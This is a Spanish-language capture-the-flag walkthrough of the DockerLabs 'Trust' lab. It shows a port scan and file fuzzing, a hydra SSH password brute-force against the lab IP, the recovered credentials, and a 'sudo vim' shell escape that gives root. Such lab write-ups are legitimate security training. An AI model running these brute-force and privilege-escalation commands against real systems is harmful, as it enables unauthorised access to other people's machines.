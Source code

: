```yaml
---
{"dg-publish":true,"permalink":"/dockerlabs/muy-facil/trust/","dgPassFrontmatter":true}
---
```


![Pasted image 20250526085117.png](/img/user/Imagenes/Pasted%20image%2020250526085117.png)

Damos un nmap para escanear los puertos abiertos:

![Pasted image 20250526085149.png](/img/user/Imagenes/Pasted%20image%2020250526085149.png)

Puertos abiertos:
- 22
- 80

Ingresemos a la pagina web detras:

![Pasted image 20250526092052.png](/img/user/Imagenes/Pasted%20image%2020250526092052.png)

Probemos busqueda de directorios o busqeudas de archvivos:
1. Hago un dirsearch y no sale nada interesante
2. Utilizo ffuf para buscar archivos con diferentes extensiones.

```
ffuf -u http://172.18.0.2/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.bak,.txt,.html -mc 200
```

![Pasted image 20250526092229.png](/img/user/Imagenes/Pasted%20image%2020250526092229.png)

Tenemos un archiov secret.php ingresemos a ello:

![Pasted image 20250526092258.png](/img/user/Imagenes/Pasted%20image%2020250526092258.png)

Tenemos como usuario: **mario**

- Podemos intentar hacer hydra para buscar password para mario y loguearnos en el ssh:

```
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

![Pasted image 20250526092402.png](/img/user/Imagenes/Pasted%20image%2020250526092402.png)

Credenciales: **mario:chocolate**

![Pasted image 20250526092451.png](/img/user/Imagenes/Pasted%20image%2020250526092451.png)

Ingresamos al ssh y probamos un **sudo -l**:

![Pasted image 20250526092548.png](/img/user/Imagenes/Pasted%20image%2020250526092548.png)
Obsevamos que tenemos obcion de ejcutar vim como super usuario sin serlo:

Para escalar privilegios podemos hacer lo siguiente:

```
sudo vim -c ':!/bin/sh'
```

![Pasted image 20250526092707.png](/img/user/Imagenes/Pasted%20image%2020250526092707.png)

Ya somo root.
Para mas informacion del comando tenemos la siguiente pagina: https://gtfobins.github.io/gtfobins/vim/

thanks.
